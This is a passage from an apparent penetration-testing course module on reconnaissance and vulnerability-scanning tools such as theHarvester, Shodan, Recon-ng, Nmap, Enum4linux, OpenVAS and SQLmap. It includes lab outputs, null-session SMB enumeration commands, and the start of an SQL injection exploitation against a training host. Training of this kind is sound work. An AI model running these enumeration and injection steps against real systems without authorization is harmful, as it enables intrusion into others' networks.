East or West Longitu |W
Longitude |47, 40, 35.28
Altitude Reference |Sea level
Altitude |109.527
Speed Unit |K
Speed of GPS Receive |0.1767
GPS Image Direction |T
GPS Image Direction |235.92
Reference for Bearin |T
Bearing of Destinati |235.92
--------------------+--------------------------------------------------
omar@kali:~$
theHarvester
theHarvester is a tool that can be used to enumerate DNS information about a given hostname or IP address. It can query several data sources, including Baidu, Google, LinkedIn, public Pretty Good Privacy (PGP) servers, Twitter, vhost, Virus Total, ThreatCrowd, CRT.SH, Netcraft, and Yahoo. Example 10-5 shows the different options of the theHarvester tool.
Example 10-5 — theHarvester Tool Options
Usage: theharvester options
-d: Domain to search or company name
-b: data source: baidu, bing, bingapi, dogpile, google,
googleCSE, googleplus, google-profiles, linkedin, pgp, twitter,
vhost,virustotal, threatcrowd, crtsh, netcraft, yahoo, all
-s: Start in result number X (default: 0)
-v: Verify host name via dns resolution and search for virtual hosts
-f: Save the results into an HTML and XML file (both)
-n: Perform a DNS reverse query on all ranges discovered
-c: Perform a DNS brute force for the domain name
-t: Perform a DNS TLD expansion discovery
-e: Use this DNS server
-l: Limit the number of results to work with (bing goes from
50 to 50 results, google 100 to 100, and pgp doesn't use this option)
-h: use SHODAN database to query discovered hosts
Examples:
theharvester -d microsoft.com -l 500 -b google -h myresults.html
theharvester -d microsoft.com -b pgp
theharvester -d microsoft -l 200 -b linkedin
theharvester -d apple.com -b googleCSE -l 500 -s 300
The command theharverster is deprecated. Please use
theHarverster instead. The output will be slightly
different than shown in Example 10-5.
Example 10-6 shows the theHarvester tool being used to gather
information about the domain h4cker.org, using all data sources (-b all). You can see that the theHarvester tool found several subdomains:
backdoor.h4cker.org, mail.h4cker.org, malicious.h4cker.org,
portal.h4cker.org, store.h4cker.org, and web.h4cker.org.
Example 10-6 — Using the theHarvester Tool to Gather Information About h4cker.org
Shodan
Shodan is a search engine for devices connected to the Internet. Shodan continuously scans the Internet and exposes its results to users via its website (https://www.shodan.io) and via an API. Attackers can use this tool to identify vulnerable and exposed systems on the Internet (for example, misconfigured IoT devices, infrastructure devices). Penetration testers can use this tool to gather information about potentially vulnerable systems exposed to the Internet without actively scanning their victims. Figure 10-5 shows the results of a Shodan search for Cisco Smart Install client devices exposed to the Internet.
Example 10-7 shows the Shodan API client. In this example, the client lists high-level statistics for the query smart install. In this example, you can see the top 10 countries that have Cisco Smart Install clients exposed to the Internet.
Shodan API's client libraries can be downloaded from https://developer.shodan.io/api/clients.
Example 10-7 — Using the Shodan API Client
Top 10 Results for Facet: country
US 6,644
KR 2,637
JP 1,783
CA 1,677
IN 1,646
FR 998
BR 868
MX 661
AU 625
IT 377
Top 10 Results for Facet: org
Korea Telecom 1,230
JAB Wireless 620
LG DACOM Corporation 406
Cox Communications 389
Afghantelecom Government Network 252
Fastweb 251
Time Warner Cable 216
York University 146
Cogent Communications 131
Access Haiti S.A. 102
Example 10-8 shows the available options of the Shodan API client.
Example 10-8 — Shodan API Client Options
Usage: shodan [OPTIONS] COMMAND [ARGS]...
Options:
-h, --help Show this message and exit.
Commands:
Alert Manage the network alerts for your account
Convert Convert the given input data file into a...
count Returns the number of results for a search
data Bulk data access to Shodan
download Download search results and save them in a...
honeyscore Check whether the IP is a honeypot or not.
Host View all available information for an IP...
info Shows general information about your account
init Initialize the Shodan command-line
myip Print your external IP address
parse Extract information out of compressed JSON...
radar Check whether the IP is a honeypot or not.
scan Scan an IP/ netblock using Shodan.
search Search the Shodan database
stats Provide summary information about a search...
stream Stream data in real-time.
omar@kali:~$
Maltego
Maltego, which gathers information from public records, is one of the most popular tools for passive reconnaissance. It supports numerous third-party integrations. There are several versions of Maltego, including a community edition (which is free) and several commercial Maltego client and server options. You can download and obtain more information about Maltego from https://www.paterva.com. Maltego can be used to find information about companies, individuals, gangs, educational institutions, political movement groups, religious groups, and so on. Maltego organizes query entities within the Entity Palette, and the search options are called "transforms." Figure 10-6 shows a screenshot of the search results for a Person entity (in this case a search against this book's coauthor Omar Santos). The results are hierarchical in nature, and you can perform additional queries/searches on the results (entities).
In the Maltego Transform Hub, you can select free and commercial products that can be integrated with Maltego. For example, you can integrate Maltego with Shodan or with a website called HaveIBeenPwned that allows you to query whether a person or an email address has been exposed as part of a breach (and potentially gather credentials stolen from such breaches). Dozens of additional tools and commercial products can be integrated with Maltego, as shown in Figure 10-7.
Recon-ng
Recon-ng is a menu-based tool that can be used to automate the information gathering of OSINT. Recon-ng comes with Kali Linux and several other penetration testing Linux distributions, and it can be downloaded from https://github.com/lanmaster53/recon-ng. Figure 10-8 shows the Recon-ng welcome menu.
Recon-ng comes with dozens of modules that can be used to perform detailed searches of public records, interesting files, DNS records, and so on. Example 10-9 includes the output of the show modules command in Recon-ng, which lists all the available modules.
Example 10-9 — Recon-ng Modules
Discovery
---------
discovery/info_disclosure/cache_snoop
discovery/info_disclosure/interesting_files
Exploitation
------------
exploitation/injection/command_injector
exploitation/injection/xpath_bruter
Import
------
import/csv_file
import/list
Recon
-----
recon/companies-contacts/bing_linkedin_cache
recon/companies-contacts/jigsaw/point_usage
recon/companies-contacts/jigsaw/purchase_contact
recon/companies-contacts/jigsaw/search_contacts
recon/companies-contacts/linkedin_auth
recon/companies-multi/github_miner
recon/companies-multi/whois_miner
recon/contacts-contacts/mailtester
recon/contacts-contacts/mangle
recon/contacts-contacts/unmangle
recon/contacts-credentials/hibp_breach
recon/contacts-credentials/hibp_paste
recon/contacts-domains/migrate_contacts
recon/contacts-profiles/fullcontact
recon/credentials-credentials/adobe
recon/credentials-credentials/bozocrack
recon/credentials-credentials/hashes_org
recon/domains-contacts/metacrawler
recon/domains-contacts/pgp_search
recon/domains-contacts/whois_pocs
recon/domains-credentials/pwnedlist/account_creds
recon/domains-credentials/pwnedlist/api_usage
recon/domains-credentials/pwnedlist/domain_creds
recon/domains-credentials/pwnedlist/domain_ispwned
recon/domains-credentials/pwnedlist/leak_lookup
recon/domains-credentials/pwnedlist/leaks_dump
recon/domains-domains/brute_suffix
recon/domains-hosts/bing_domain_api
recon/domains-hosts/bing_domain_web
recon/domains-hosts/brute_hosts
recon/domains-hosts/builtwith
recon/domains-hosts/certificate_transparency
recon/domains-hosts/google_site_api
recon/domains-hosts/google_site_web
recon/domains-hosts/hackertarget
recon/domains-hosts/mx_spf_ip
recon/domains-hosts/netcraft
recon/domains-hosts/shodan_hostname
recon/domains-hosts/ssl_san
recon/domains-hosts/threatcrowd
recon/domains-vulnerabilities/ghdb
recon/domains-vulnerabilities/punkspider
recon/domains-vulnerabilities/xssed
recon/domains-vulnerabilities/xssposed
recon/hosts-domains/migrate_hosts
recon/hosts-hosts/bing_ip
recon/hosts-hosts/freegeoip
recon/hosts-hosts/ipinfodb
recon/hosts-hosts/resolve
recon/hosts-hosts/reverse_resolve
recon/hosts-hosts/ssltools
recon/hosts-locations/migrate_hosts
recon/hosts-ports/shodan_ip
recon/locations-locations/geocode
recon/locations-locations/reverse_geocode
recon/locations-pushpins/flickr
recon/locations-pushpins/instagram
recon/locations-pushpins/picasa
recon/locations-pushpins/shodan
recon/locations-pushpins/twitter
recon/locations-pushpins/youtube
recon/netblocks-companies/whois_orgs
recon/netblocks-hosts/reverse_resolve
recon/netblocks-hosts/shodan_net
recon/netblocks-ports/census_2012
recon/netblocks-ports/censysio
recon/ports-hosts/migrate_ports
recon/profiles-contacts/dev_diver
recon/profiles-contacts/github_users
recon/profiles-profiles/namechk
recon/profiles-profiles/profiler
recon/profiles-profiles/twitter_mentioned
recon/profiles-profiles/twitter_mentions
recon/profiles-repositories/github_repos
recon/repositories-profiles/github_commits
recon/repositories-vulnerabilities/gists_search
recon/repositories-vulnerabilities/github_dorks
Reporting
---------
reporting/csv
reporting/html
reporting/json
reporting/list
reporting/proxifier
reporting/pushpin
reporting/xlsx
reporting/xml
[recon-ng][default] >
Recon-ng can query several third-party tools, including Shodan, as well as Twitter, Instagram, Flickr, YouTube, Google, GitHub repositories, and many other sites. For some of those tools and sources, you must register and obtain an API key. You can add the API key by using the Recon-ng keys add command. To list all available APIs that Recon-ng can interact with, use the keys list command, as demonstrated in Example 10-10.
Example 10-10 — The Recon-ng keys list Command
+--------------------------+
| Name | Value |
+--------------------------+
| bing_api | |
| builtwith_api | |
| censysio_id | |
| censysio_secret | |
| flickr_api | |
| fullcontact_api | |
| github_api | |
| google_api | |
| google_cse | |
| hashes_api | |
| instagram_api | |
| instagram_secret | |
| ipinfodb_api | |
| jigsaw_api | |
| jigsaw_password | |
| jigsaw_username | |
| linkedin_api | |
| linkedin_secret | |
| pwnedlist_api | |
| pwnedlist_iv | |
| pwnedlist_secret | |
| shodan_api | |
| twitter_api | |
| twitter_secret | |
+---------------------------+
The use command allows you to use a Recon-ng module. After you select the module, you can invoke the show info command to display the module options and information. You can then set the source (target domain, IP address, email address, and so on) with the set command and then use the run command to run the automated search. In Example 10-11, the Hostname Resolver module is run to query the web.h4cker.org domain information.
Example 10-11 — Using Recon-ng Modules
[recon-ng][default][resolve] > show info
Name: Hostname Resolver
Path: modules/recon/hosts-hosts/resolve.py
Author: Tim Tomes (@LaNMaSteR53)
Description:
Resolves the IP address for a host. Updates the 'hosts' table with the results.
Options:
Name Current Value Required Description
------ ------------- -------- -----------
SOURCE web.h4cker.org yes source of input (see 'show info' for details)
Source Options:
default SELECT DISTINCT host FROM hosts WHERE host IS NOT NULL AND ip_address IS NULL
<string> string representing a single input
<path> path to a file containing a list of inputs
query <sql> database query returning one column of inputs
Comments:
* Note: Nameserver must be in IP form.
[recon-ng][default][resolve] > set SOURCE web.h4cker.org
SOURCE => web.h4cker.org
[recon-ng][default][resolve] > run
[*] web.h4cker.org => 185.199.108.153
[*] web.h4cker.org => 185.199.109.153
[*] web.h4cker.org => 185.199.110.153
[*] web.h4cker.org => 185.199.111.153
-------
SUMMARY
-------
[*] 3 total (3 new) hosts found.
[recon-ng][default][resolve] >
Example 10-12 shows the Shodan module being used to query for information pertaining to the example.org domain.
Example 10-12 — Querying Shodan Using Recon-ng
[recon-ng][default][shodan_hostname] > set SOURCE example.org
SOURCE => example.org
[recon-ng][default][shodan_hostname] > run
-----------
EXAMPLE.ORG
-----------
[*] Searching Shodan API for: hostname:example.org
[*] [port] 190.106.130.4 (587/<blank>) - host2.example.org
[*] [host] host2.example.org (190.106.130.4)
[*] [port] 62.173.139.23 (22/<blank>) - example.org
[*] [host] example.org (62.173.139.23)
[*] [port] 94.250.248.230 (22/<blank>) - example.org
[*] [host] example.org (94.250.248.230)
[*] [port] 91.210.189.62 (22/<blank>) - bisertokareva.example.org
[*] [host] bisertokareva.example.org (91.210.189.62)
[*] [port] 104.131.127.104 (22/<blank>) - l.example.org
[*] [host] l.example.org (104.131.127.104)
[*] [port] 91.210.189.62 (143/<blank>) - bisertokareva.example.org
[*] [host] bisertokareva.example.org (91.210.189.62)
[*] [port] 190.106.130.3 (110/<blank>) - host2.example.org
...
<output omitted for brevity>
...
[*] [port] 62.173.139.23 (21/<blank>) - example.org
[*] [host] example.org (62.173.139.23)
-------
SUMMARY
-------
[*] 67 total (17 new) hosts found.
[*] 67 total (67 new) ports found.
[recon-ng][default][shodan_hostname] >
You can learn about all the Recon-ng options and commands at https://hackertarget.com/recon-ng-tutorial/.
Censys
Censys, a tool developed by researchers at the University of Michigan, can be used for passive reconnaissance to find information about devices and networks on the Internet. It can be accessed at https://censys.io. Censys provides a free web and API access plan that limits the number of queries a user can perform. It also provides several other paid plans that allow for premium support and additional queries. Figure 10-9 shows a screenshot of the Censys website. Figure 10-9 displays the results for a query for 8.8.8.8 (Google's public DNS server).
Module 3 discusses additional tools that can be used for passive reconnaissance. The Art of Hacking GitHub repository also provides numerous other OSINT and passive reconnaissance tools and documentation; see https://theartofhacking.org/github.
That concludes our discussion of passive reconnaissance tools. Now let's turn our attention to active reconnaissance tools.
Tools for Active Reconnaissance
Active reconnaissance involves actively gathering information about a victim by using tools such as port and vulnerability scanners. The following sections describe some of the most popular tools for active reconnaissance.
Nmap and Zenmap
Module 3 discusses Nmap in detail, including the most common options and types of scans available in Nmap. The enumeration of hosts is one of the first tasks that needs to be performed in active reconnaissance. Host enumeration could be performed in an internal network and externally (sourced from the Internet). When performed externally, you typically want to limit the IP addresses that you are scanning to just the ones that are part of the scope of the test. Doing so reduces the chances of inadvertently scanning an IP address that you are not authorized to test.
When performing an internal host enumeration, you typically scan the full subnet or subnets of IP addresses being used by the target. Example 10-13 shows a quick Nmap scan being performed to enumerate all hosts in the 10.1.1.0/24 subnet and any TCP ports they may have open. For additional information about the default ports that Nmap scans, see https://nmap.org/book/man-port-specification.html.
Example 10-13 — Host Enumeration Using Nmap
Nmap scan report for 10.1.1.1
Host is up (0.000057s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
22/tcp open ssh
8080/tcp open http-proxy
MAC Address: 00:0C:29:DD:5D:ED (VMware)
Nmap scan report for test.h4cker.org (10.1.1.2)
Host is up (0.000043s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
139/tcp open netbios-ssn
445/tcp open microsoft-ds
MAC Address: 00:0C:29:73:03:CC (VMware)
Nmap scan report for 10.1.1.11
Host is up (0.00011s latency).
Not shown: 996 closed ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
8080/tcp open http-proxy
MAC Address: 00:0C:29:3A:9B:81 (VMware)
Nmap scan report for 10.1.1.12
Host is up (0.000049s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
MAC Address: 00:0C:29:79:23:C9 (VMware)
Nmap scan report for 10.1.1.13
Host is up (0.000052s latency).
Not shown: 996 closed ports
PORT STATE SERVICE
22/tcp open ssh
88/tcp open kerberos-sec
443/tcp open https
8080/tcp open http-proxy
MAC Address: 00:0C:29:FF:F5:4F (VMware)
Nmap scan report for 10.1.1.14
Host is up (0.000051s latency).
Not shown: 977 closed ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
23/tcp open telnet
25/tcp open smtp
53/tcp open domain
80/tcp open http
111/tcp open rpcbind
139/tcp open netbios-ssn
445/tcp open microsoft-ds
512/tcp open exec
513/tcp open login
514/tcp open shell
1099/tcp open rmiregistry
1524/tcp open ingreslock
2049/tcp open nfs
2121/tcp open ccproxy-ftp
3306/tcp open mysql
5432/tcp open postgresql
5900/tcp open vnc
6000/tcp open X11
6667/tcp open irc
8009/tcp open ajp13
8180/tcp open unknown
MAC Address: 00:0C:29:D0:E5:8A (VMware)
Nmap scan report for 10.1.1.21
Host is up (0.000080s latency).
Not shown: 845 closed ports, 154 filtered ports
PORT STATE SERVICE
22/tcp open ssh
MAC Address: 00:0C:29:A3:05:34 (VMware)
Nmap scan report for 10.1.1.22
Host is up (0.00029s latency).
Not shown: 999 filtered ports
PORT STATE SERVICE
22/tcp open ssh
MAC Address: 00:0C:29:E4:DF:1D (VMware)
Nmap scan report for 10.1.1.66
Host is up (0.0000050s latency).
Not shown: 999 closed ports
PORT STATE SERVICE
22/tcp open ssh
Nmap done: 256 IP addresses (9 hosts up) scanned in 7.02 seconds
root@kali:~#
Example 10-13 shows that nine hosts in the 10.1.1.0/24 subnet were found. You can also see the open TCP ports at each host.
Zenmap is a graphical unit interface (GUI) tool for Nmap. Figure 10-10 shows the Zenmap tool and the output of the same scan performed in Example 10-13.
Zenmap provides a feature that allows you to illustrate the topology of the hosts it finds. Figure 10-11 shows the Topology tab of the Zenmap tool.
Refer to Module 3 for additional information about the most commonly used Nmap options and to learn about the Nmap Scripting Engine (NSE). The Art of Hacking GitHub repository (https://theartofhacking.org/github) also has several cheat sheets for different tools, including Nmap.
Enum4linux
Enum4linux is a great tool for enumerating SMB shares, vulnerable Samba implementations, and corresponding users. Example 10-14 shows the output of a detailed scan using Enum4linux against the host with IP address 10.1.1.14 that was discovered by Nmap in Example 10-13.
Example 10-14 — Using Enum4linux
[V] Dependent program "nmblookup" found in /usr/bin/nmblookup
[V] Dependent program "net" found in /usr/bin/net
[V] Dependent program "rpcclient" found in /usr/bin/rpcclient
[V] Dependent program "smbclient" found in /usr/bin/smbclient
[V] Dependent program "polenum" found in /usr/bin/polenum
[V] Dependent program "ldapsearch" found in /usr/bin/ldapsearch
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Jun 23 19:48:00
==========================
| Target Information |
==========================
Target ........... 10.1.1.14
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
=================================================
| Enumerating Workgroup/Domain on 10.1.1.14 |
=================================================
[V] Attempting to get domain name with command: nmblookup -A '10.1.1.14'
[+] Got domain/workgroup name: WORKGROUP
=========================================
| Nbtstat Information for 10.1.1.14 |
=========================================
Looking up status of 10.1.1.14
METASPLOITABLE <00> - B <ACTIVE> Workstation Service
METASPLOITABLE <03> - B <ACTIVE> Messenger Service
METASPLOITABLE <20> - B <ACTIVE> File Server Service
..__MSBROWSE__.<01> - <GROUP> B <ACTIVE> Master Browser
WORKGROUP <00> - <GROUP> B <ACTIVE> Domain/Workgroup Name
WORKGROUP <1d> - B <ACTIVE> Master Browser
WORKGROUP <1e> - <GROUP> B <ACTIVE> Browser Service Elections
MAC Address = 00-00-00-00-00-00
==================================
| Session Check on 10.1.1.14 |
==================================
[V] Attempting to make null session using command: smbclient -W 'WORKGROUP' //'10.1.1.14'/ipc$ -U''%'' -c 'help' 2>&1
[+] Server 10.1.1.14 allows sessions using username '', password ''
========================================
| Getting domain SID for 10.1.1.14 |
========================================
[V] Attempting to get domain SID with command: rpcclient -W 'WORKGROUP' -U''%'' 10.1.1.14 -c 'lsaquery' 2>&1
Domain Name: WORKGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup
===================================
| OS information on 10.1.1.14 |
===================================
[V] Attempting to get OS info with command: smbclient -W 'WORKGROUP' //'10.1.1.14'/ipc$ -U''%'' -c 'q' 2>&1
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
[+] Got OS info for 10.1.1.14 from smbclient:
[V] Attempting to get OS info with command: rpcclient -W 'WORKGROUP' -U''%'' -c 'srvinfo' '10.1.1.14' 2>&1
[+] Got OS info for 10.1.1.14 from srvinfo:
METASPLOITABLE Wk Sv PrQ Unx NT SNT metasploitable server (Samba 3.0.20-Debian)
platform_id : 500
os version : 4.9
server type : 0x9a03
==========================
| Users on 10.1.1.14 |
==========================
[V] Attempting to get userlist with command: rpcclient -W 'WORKGROUP' -c querydispinfo -U''%'' '10.1.1.14' 2>&1
index: 0x1 RID: 0x3f2 acb: 0x00000011 Account: games Name: games Desc: (null)
index: 0x2 RID: 0x1f5 acb: 0x00000011 Account: nobody Name: nobody Desc: (null)
index: 0x3 RID: 0x4ba acb: 0x00000011 Account: bind Name: (null) Desc: (null)
index: 0x4 RID: 0x402 acb: 0x00000011 Account: proxy Name: proxy Desc: (null)
index: 0x5 RID: 0xbbe acb: 0x00000010 Account: omar Name: (null) Desc: (null)
index: 0x6 RID: 0x4b4 acb: 0x00000011 Account: syslog Name: (null) Desc: (null)
index: 0x7 RID: 0xbba acb: 0x00000010 Account: user Name: just a user,111,, Desc: (null)
index: 0x8 RID: 0x42a acb: 0x00000011 Account: www-data Name: www-data Desc: (null)
index: 0x9 RID: 0x3e8 acb: 0x00000011 Account: root Name: root Desc: (null)
index: 0xa RID: 0x3fa acb: 0x00000011 Account: news Name: news Desc: (null)
index: 0xb RID: 0x4c0 acb: 0x00000011 Account: postgres Name: PostgreSQL administrator,,, Desc: (null)
index: 0xc RID: 0x3ec acb: 0x00000011 Account: bin Name: bin Desc: (null)
index: 0xd RID: 0x3f8 acb: 0x00000011 Account: mail Name: mail Desc: (null)
index: 0xe RID: 0x4c6 acb: 0x00000011 Account: distccd Name: (null) Desc: (null)
index: 0xf RID: 0x4ca acb: 0x00000011 Account: proftpd Name: (null) Desc: (null)
index: 0x10 RID: 0x4b2 acb: 0x00000011 Account: dhcp Name: (null) Desc: (null)
index: 0x11 RID: 0x3ea acb: 0x00000011 Account: daemon Name: daemon Desc: (null)
index: 0x12 RID: 0x4b8 acb: 0x00000011 Account: sshd Name: (null) Desc: (null)
index: 0x13 RID: 0x3f4 acb: 0x00000011 Account: man Name: man Desc: (null)
index: 0x14 RID: 0x3f6 acb: 0x00000011 Account: lp Name: lp Desc: (null)
index: 0x15 RID: 0x4c2 acb: 0x00000011 Account: mysql Name: MySQL Server,,, Desc: (null)
index: 0x17 RID: 0x4b0 acb: 0x00000011 Account: libuuid Name: (null) Desc: (null)
index: 0x18 RID: 0x42c acb: 0x00000011 Account: backup Name: backup Desc: (null)
index: 0x19 RID: 0xbb8 acb: 0x00000010 Account: msfadmin Name: msfadmin,,, Desc: (null)
index: 0x1a RID: 0x4c8 acb: 0x00000011 Account: telnetd Name: (null) Desc: (null)
index: 0x1b RID: 0x3ee acb: 0x00000011 Account: sys Name: sys Desc: (null)
index: 0x1c RID: 0x4b6 acb: 0x00000011 Account: klog Name: (null) Desc: (null)
index: 0x1d RID: 0x4bc acb: 0x00000011 Account: postfix Name: (null) Desc: (null)
index: 0x1e RID: 0xbbc acb: 0x00000011 Account: service Name: ,,, Desc: (null)
index: 0x1f RID: 0x434 acb: 0x00000011 Account: list Name: Mailing List Manager Desc: (null)
index: 0x20 RID: 0x436 acb: 0x00000011 Account: irc Name: ircd Desc: (null)
index: 0x21 RID: 0x4be acb: 0x00000011 Account: ftp Name: (null) Desc: (null)
index: 0x22 RID: 0x4c4 acb: 0x00000011 Account: tomcat55 Name: (null) Desc: (null)
index: 0x23 RID: 0x3f0 acb: 0x00000011 Account: sync Name: sync Desc: (null)
index: 0x24 RID: 0x3fc acb: 0x00000011 Account: uucp Name: uucp Desc: (null)
[V] Attempting to get userlist with command: rpcclient -W 'WORKGROUP' -c enumdomusers -U''%'' '10.1.1.14' 2>&1
user:[games] rid:[0x3f2]
user:[nobody] rid:[0x1f5]
user:[bind] rid:[0x4ba]
user:[proxy] rid:[0x402]
user:[omar] rid:[0xbbe]
user:[syslog] rid:[0x4b4]
user:[user] rid:[0xbba]
user:[www-data] rid:[0x42a]
user:[root] rid:[0x3e8]
user:[news] rid:[0x3fa]
user:[postgres] rid:[0x4c0]
user:[bin] rid:[0x3ec]
user:[mail] rid:[0x3f8]
user:[distccd] rid:[0x4c6]
user:[proftpd] rid:[0x4ca]
user:[dhcp] rid:[0x4b2]
user:[daemon] rid:[0x3ea]
user:[sshd] rid:[0x4b8]
user:[man] rid:[0x3f4]
user:[lp] rid:[0x3f6]
user:[mysql] rid:[0x4c2]
user:[gnats] rid:[0x43a]
user:[libuuid] rid:[0x4b0]
user:[backup] rid:[0x42c]
user:[msfadmin] rid:[0xbb8]
user:[telnetd] rid:[0x4c8]
user:[sys] rid:[0x3ee]
user:[klog] rid:[0x4b6]
user:[postfix] rid:[0x4bc]
user:[service] rid:[0xbbc]
user:[list] rid:[0x434]
user:[irc] rid:[0x436]
user:[ftp] rid:[0x4be]
user:[tomcat55] rid:[0x4c4]
user:[sync] rid:[0x3f0]
user:[uucp] rid:[0x3fc]
======================================
| Share Enumeration on 10.1.1.14 |
======================================
[V] Attempting to get share list using authentication
Sharename Type Comment
--------- ---- -------
print$ Disk Printer Drivers
tmp Disk oh noes!
opt Disk
IPC$ IPC IPC Service (metasploitable server (Samba 3.0.20-Debian))
ADMIN$ IPC IPC Service (metasploitable server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Server Comment
--------- -------
Workgroup Master
--------- -------
WORKGROUP METASPLOITABLE
[+] Attempting to map shares on 10.1.1.14
…
<output omitted for brevity>
...
The first and second highlighted lines in Example 10-14 show that a user with username omar was enumerated (along with others). The additional highlighted lines show different SMB shares that Enum4linux was able to enumerate.
Refer to Module 3 for additional tools that can be used for information gathering.
10.2.4 Practice — Common Tools for Reconnaissance and Enumeration
You have just started a new engagement with a client in the publishing industry. They have a lot of registered domains and subdomains for their products. You need to investigate their DNS footprint to get a sense of their web-facing attack surface. Which tools will help you do this? (Choose three.)
During a pentest, you are searching a webserver for files that contain information that you can use in the exploitation phase of the test. You are interested in finding information about your client from exposed file metadata and EXIF information. Which tool would you use to scan the server?
You are conducting passive reconnaissance of a target and would like to find out what servers are registered to the client by querying a range of DNS tools and search engines. What tool will you select for this purpose?
You are interested in scanning client domains for internet-connected server information, including information from various IoT devices, open ports, server OS, and OS version. Which tool can be used to identify vulnerable and exposed systems on the internet as part of a passive reconnaissance activity?
You are evaluating OSINT tools as part of a reconnaissance effort. Which tool will you use to obtain information about people, companies, and other targets?
Which penetration test tool can perform detailed searches of public records, interesting files, and DNS records?
It is important to know the difference between active and passive reconnaissance tools so that you avoid detection if necessary. Identify whether each reconnaissance tool is passive or active.
- theHarvester — Passive (queries public data sources and search engines without sending packets to the victim)
- Nmap — Active (sends packets directly to target hosts to enumerate open ports and services)
- Shodan — Passive (queries an external search engine database; no direct contact with the target)
- Maltego — Passive (gathers information from public records and third-party data sources)
- Enum4linux — Active (directly queries SMB services on target systems)
- Censys — Passive (queries the Censys database of Internet-wide scan data)
- Zenmap — Active (GUI front-end for Nmap that sends packets to target hosts)
- nslookup — Passive (queries DNS servers using standard protocol lookups without probing the target directly)
10.2.5 Common Tools for Vulnerability Scanning
There are numerous vulnerability scanning tools, including open-source and commercial vulnerability scanners, as well as cloud-based services and tools. The following are some of the most popular vulnerability scanners:
- OpenVAS
- Nessus
- Nexpose
- Qualys
- SQLmap
- Nikto
- OWASP Zed Attack Proxy (ZAP)
- w3af
- DirBuster
- Brakeman
- Open Security Content Automation Protocol (SCAP) scanners
- Wapiti
- Scout Suite
- WPScan (Wordpress scanner)
Brakeman, SCAP, Wapiti, Scout Suite, and WPScan are not discussed
further in this course. For more information, visit their websites:
https://brakemanscanner.org/
https://www.open-scap.org/
https://wapiti.sourceforge.io/
https://github.com/nccgroup/ScoutSuite
https://wpscan.org/?
OWASP lists additional vulnerability scanning tools not covered in
this module at
https://www.owasp.org/index.php/Category:Vulnerability_Scanning_Tools.
OpenVAS
OpenVAS is an open-source vulnerability scanner that was created by Greenbone Networks. The OpenVAS framework includes several services and tools that enable you to perform detailed vulnerability scanning against hosts and networks.
OpenVAS can be downloaded from https://www.openvas.org, and the documentation can be accessed at https://docs.greenbone.net/#user_documentation.
OpenVAS also includes an API that allows you to programmatically interact with its tools and automate the scanning of hosts and networks. The OpenVAS API documentation can be accessed at https://docs.greenbone.net/#api_documentation.
Figure 10-12 shows a screenshot of the OpenVAS scan results dashboard.
Figure 10-13 shows multiple critical remote code execution vulnerabilities found by OpenVAS in the host with IP address 10.1.1.14.
You can easily start a scan in OpenVAS by navigating to Scans → Tasks and selecting either Task Wizard or Advanced Task Wizard. You can also manually configure a scan by creating a new task. Figure 10-14 shows a screenshot of the OpenVAS Advanced Task Wizard, where a new task is created to launch a scan of the host with the IP address 10.1.1.66.
You can schedule scans by using the API, by using the Task Wizard, or by navigating to Configuration → Schedules. Figure 10-15 shows a screenshot of the OpenVAS scheduling configuration window.
Nessus
The Nessus scanner from Tenable has several features that allow you to perform continuous monitoring and compliance analysis. Nessus can be downloaded from https://www.tenable.com/downloads/nessus.
Tenable also has a cloud-based solution called Tenable.io. For information about Tenable.io, see https://www.tenable.com/products/tenable-io.
Nexpose
Nexpose is a vulnerability scanner created by Rapid7 that is very popular among professional penetration testers. It supports integrations with other security products.
Rapid7 also has several vulnerability scanning solutions that are used for vulnerability management, continuous monitoring, and secure development lifecycle.
Qualys
Qualys is a security company that created one of the most popular vulnerability scanners in the industry. It also has a cloud-based service that performs continuous monitoring, vulnerability management, and compliance checking. This cloud solution interacts with cloud agents, virtual scanners, scanner appliances, and Internet scanners.
Information about the Qualys scanner and cloud platform can be accessed at https://www.qualys.com.
Tools like Qualys and Nessus also provide features that can be used for configuration compliance.
SQLmap
SQLmap is often considered a web vulnerability and SQL injection tool. It helps automate the enumeration of vulnerable applications, as well as the exploitation of SQL injection techniques that you learned in Module 6, "Exploiting Application-Based Vulnerabilities." You can download SQLmap from http://sqlmap.org.
Let's take a look at a quick example of how to use SQLmap to exploit an SQL injection vulnerability. Say that a host with IP address 10.1.1.14 is vulnerable to SQL injection. In order to automate the enumeration and exploitation of this vulnerability, you first connect to the vulnerable application and capture the HTTP GET request by using a proxy. (Module 6 describes how proxies work.) Example 10-15 shows the captured HTTP GET request to the vulnerable server (10.1.1.14).
Example 10-15 — HTTP GET Request to a Vulnerable Web Application
Host: 10.1.1.14
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.1.1.14/dvwa/vulnerabilities/sqli/
Cookie: security=low; PHPSESSID=1558e11b491da91be3b68e5cce953ca4
Connection: close
Upgrade-Insecure-Requests: 1
The first highlighted line in Example 10-15 shows the GET request's URI. The second highlighted line shows the cookie and the session ID (PHPSESSID=1558e11b491da91be3b68e5cce953ca4). You can use this information to launch the SQLmap tool, as shown in Example 10-16.
Example 10-16 — Using the SQLmap Tool to Exploit an SQL Injection Vulnerability
___
__H__
___ ___[.]_____ ___ ___ {1.2.4#stable}
|_ -| . [)] | .'| . |
|___|_ [.]_|_|_|__,| _|
|_|V |_| http://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting at 21:49:11
[21:49:11] [INFO] testing connection to the target URL
[21:49:11] [INFO] testing if the target URL content is stable
[21:49:12] [INFO] target URL content is stable
